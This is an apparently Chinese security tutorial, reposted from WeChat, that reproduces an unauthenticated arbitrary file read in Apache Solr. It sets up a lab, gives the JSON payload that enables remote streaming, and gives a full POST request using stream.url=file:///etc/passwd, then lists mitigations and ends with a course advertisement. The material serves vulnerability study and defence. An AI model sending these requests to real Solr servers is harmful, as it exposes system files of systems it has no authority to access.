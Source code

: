 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/06Ta6WhxrnJmhMYZ-jAS4A)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LebHs2DGyKAEgZupcIbXWAgnQlIoLerewyAX3c3bLLg0iaTpJeUuGKrSWsicRvLMXwCIbhkUC8GqGibg/640?wx_fmt=gif)

原创稿件征集

  

邮箱：edu@antvsion.com

QQ：3200599554

黑客与极客相关，互联网安全领域里

的热点话题

漏洞、技术相关的调查或分析

稿件通过并发布还能收获

200-800 元不等的稿酬

**漏洞简介**

Apache Solr 是一个开源搜索服务引擎，默认安装未授权情况下攻击者可以构造恶意 HTTP 请求读取目标 Apache Solr 服务器的任意文件。

**复制下方链接，靶场实战**

https://www.hetianlab.com/expc.do?ec=ECIDde9d-11f0-4ac2-921f-b04f7e137c75&pk_campaign=weixin-wemedia#stu  

Apache Solr 是一个开源的搜索服务器。具有高度可靠、可伸缩和容错的，提供分布式索引、复制和负载平衡查询、自动故障转移和恢复、集中配置等功能。

**影响版本**

solr 任意版本

**环境搭建**

漏洞环境下载：

```
https://archive.apache.org/dist/lucene/solr/8.8.0/solr-8.8.0.tgz
```

解压后进入 bin 目录，启动（需要 java 环境），

```
./solr start
```

此时启动的 solr 是没有核心进行索引和搜索的，创建一个节点（核心）

```
./solr create -c test
```

访问：http://ip:8983 可以看到创建的核心

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdFTNa25Z8IznU1hr0YqlFBGMPaPBYGx3icDqBjVZbcuaicQpmQibt5ib39qr3bQPtG9wQxics5TJgA4Ag/640?wx_fmt=png)

实际场景下可以看到会有很多核心

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdFTNa25Z8IznU1hr0YqlFBg7eevKMQeKTM6wzZdN601BXJE6ibj3IXwm5cYTWddlwaYAMld8BKgug/640?wx_fmt=png)

**漏洞复现**

**启用远程流传输**

访问 http://ip:8983/solr/test/config / 抓包，将请求包修改为 POST 请求，修改 Content-Type 为 “application/json”，发送以下数据：

```
{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdFTNa25Z8IznU1hr0YqlFBfRGTJX0ltwSTox2gqviaUeP4ficwEnqIaIln0SicSPcUdUKsUMxmvmMaA/640?wx_fmt=png)

即可开启远程流。

**读取文件**

引入远程流，将 stream.url 的参数的内容作为流传递。正常情况下 stream.url 传入的内容为 “stream.url=http:/www.remotesite.com/path/to/file.pdf”, 构造传入的敏感文件

```
POST /solr/test/debug/dump?param=ContentStreams HTTP/1.1
Host: 192.168.74.139:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
```

stream.url=file:///etc/passwd

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdFTNa25Z8IznU1hr0YqlFBX1PyrQqZ60JIE1B3ibXTdfIxpeicz0YYIbRibhiaJXoeibjJUUR9UktmibEA/640?wx_fmt=png)

**漏洞修复**  

**（官方不承认这是漏洞. jpg）**

因为 solr 默认安装情况下未授权，导致可以读取任意文件，启用 Apache Solr 身份验证可有效缓解该漏洞的影响

配置访问控制策略，避免 Apache Solr 暴露在互联网

**参考**

**赛博回忆录：公布某 Solr 最新版任意文件读取 0day**

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LcC8Xw2aZyiciaLJxvE3ic7hMSDWpcCKDPr8n1d4F3vrKYDS4kNicB9icWMKEv6BXAKrcic7PbwicUdtia8SQ/640?wx_fmt=gif)

逻辑漏洞系列实战训练

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LcC8Xw2aZyiciaLJxvE3ic7hMSDWpcCKDPr8n1d4F3vrKYDS4kNicB9icWMKEv6BXAKrcic7PbwicUdtia8SQ/640?wx_fmt=gif)

胖白老师带你从 0 开始挖洞

掌握 3 个逻辑漏洞原理并利用

配套 2 个实战靶场

4 个 G 网安资料包

限时仅需 2 分钱

快扫码报名👇  

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcC8Xw2aZyiciaLJxvE3ic7hMS305JuFE1XSNVPffNp8VJa8AYPRhQCOo719dSBWctzLdBYH8ADoX9Ig/640?wx_fmt=png)